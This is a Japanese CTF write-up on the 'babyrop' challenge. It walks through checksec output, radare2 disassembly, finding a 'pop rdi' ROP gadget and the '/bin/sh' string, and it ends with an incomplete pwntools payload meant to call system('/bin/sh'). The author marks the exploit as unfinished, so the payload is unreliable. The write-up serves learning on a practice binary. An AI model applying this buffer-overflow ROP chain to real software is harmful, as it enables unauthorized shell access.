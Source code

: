 # babyrop(Exploit未完成)

まず, fileコマンドを用いて, ファイルの状態をみる.
```
$ file babyrop
babyrop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=b5a3b2575c451140ec967fd78cf8a60f2b7ef17f, not stripped
```

checksecを用いて, このELFファイルのセキュリティ機構を表示します.
```
$ checksec babyrop
[*] '/home/vagrant/File/babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

canaryがないのでBOFができそうです。<br>
セキュリティ機構については[ここ](https://web.archive.org/web/20170306105226/http://pwn.hatenadiary.jp/entry/2015/12/05/195316)から

次に, radare2でmain関数の逆アセンブルの結果をみます.

![main](./images/babyrop.png)

状況としては

- `edi`に, `echo`コマンドの文字列("echo -n \"What's your name? \")を格納<br>
  **(注: x86(64)において、`edi`(`rdi`)には関数の第一引数が入る)**
- `system("echo -n \"What's your name? \")`を実行し、名前を聞かれる.
- `scanf`を呼び出し, 任意サイズの文字列をスタック変数[`rbp-0x10`]に格納.
- `printf("Welcome to the Pwn World, %s!\n")`でメッセージ表示

ファイル名の通り、ROPを実現するためにもシェルを起動する`system("/bin/sh");`を実行する事を目標とする.

## シェルを奪う

mainの逆アセンブル結果から, `system`を呼び出す直前に, シェルコマンド文字列へのポインタを`edi`で指定した事がわかる.

よって, `edi`(`rdi`)に値を指定するROP Gadgetが必要となる. radare2を用いて出してみる.


`/R`を用いると導いてくれる
```
[0x004004e0]> /R?
|Usage: /R Search for ROP gadgets
| /R [filter-by-string]    Show gadgets
| /R/ [filter-by-regexp]   Show gadgets [regular expression]
| /Rl [filter-by-string]   Show gadgets in a linear manner
| /R/l [filter-by-regexp]  Show gadgets in a linear manner [regular expression]
| /Rj [filter-by-string]   JSON output
| /R/j [filter-by-regexp]  JSON output [regular expression]
| /Rk [select-by-class]    Query stored ROP gadgets
```

そして`rdi`の場所がわかる
```
[0x004004e0]> /R pop rdi
  0x00400683                 5f  pop rdi
  0x00400684                 c3  ret
```

また、`rdi`(`0x00400683`)に`/bin/sh`を渡すため、これもradare2を用いて求める。
```
[0x004004e0]> izz | grep /bin/sh
024 0x00001048 0x00601048   7   8 (.data) ascii /bin/sh
```
という事で、アドレス`0x00601048`に`/bin/sh`があることがわかった.

```
from pwn import *

payload = "A" * 0x20       # BOF
payload += p64(0x400683)   # pop rdi
payload += p64(0x601048)   # /bin/sh
payload += p64(0x004005e3) # call system

# すみません、ここはできませんでした
```

#### 参考
1. https://m412u.hatenablog.com/entry/2019/05/21/124929
2. https://madousho.hatenadiary.jp/entry/2019/05/20/015653
3. https://github.com/TeamHarekaze/HarekazeCTF2019-challenges/blob/master/baby_rop/README.md
